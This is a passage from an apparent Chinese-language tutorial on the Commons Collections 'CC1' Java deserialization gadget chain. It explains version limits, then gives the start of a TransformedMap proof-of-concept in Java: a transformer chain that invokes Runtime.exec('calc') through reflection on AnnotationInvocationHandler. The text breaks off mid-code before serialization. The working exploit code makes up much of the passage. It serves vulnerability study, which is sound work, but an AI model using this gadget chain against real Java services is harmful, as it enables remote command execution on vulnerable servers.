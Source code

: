 # CC1

## 前言

Commons Collections的利用链也被称为cc链，在学习反序列化漏洞必不可少的一个部分。Apache Commons Collections是Java中应用广泛的一个库，包括Weblogic、JBoss、WebSphere、Jenkins等知名大型Java应用都使用了这个库。CC1指的是lazymap那条链子,但是网上也有很多关于transformedmap的分析,这里也分析一下。还有就是CC1的测试环境需要在Java 8u71以前。在此改动后，AnnotationInvocationHandler#readObject不再直接使⽤反序列化得到的Map对象，⽽是新建了⼀个LinkedHashMap对象，并将原来的键值添加进去。所以，后续对Map的操作都是基于这个新的LinkedHashMap对象，⽽原来我们精⼼构造的Map不再执⾏set或put操作，

## 测试环境

- JDK 1.7
- Commons Collections 3.1

# transformedmap链

## POC

```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.annotation.Target;
import java.lang.annotation.RetentionPolicy;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;
import java.lang.reflect.Method;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

public class CommonCollections11 {
    public static Object generatePayload() throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "calc" })
        };               //这里和我上面说的有一点点不同,因为Runtime.getRuntime()没有实现Serializable接⼝,所以这里用的Runtime.class。class类实现了serializable接⼝

        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innermap = new HashMap();
        innermap.put("value", "xxx");
        Map outmap = TransformedMap.decorate(innermap, null, transformerChain);
        //通过反射获得AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        //通过反射获得cls的构造函数
        Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
        //这里需要设置Accessible为true，否则序列化失败
        ctor.setAccessible(true);
        //通过newInstance()方法实例化对象
```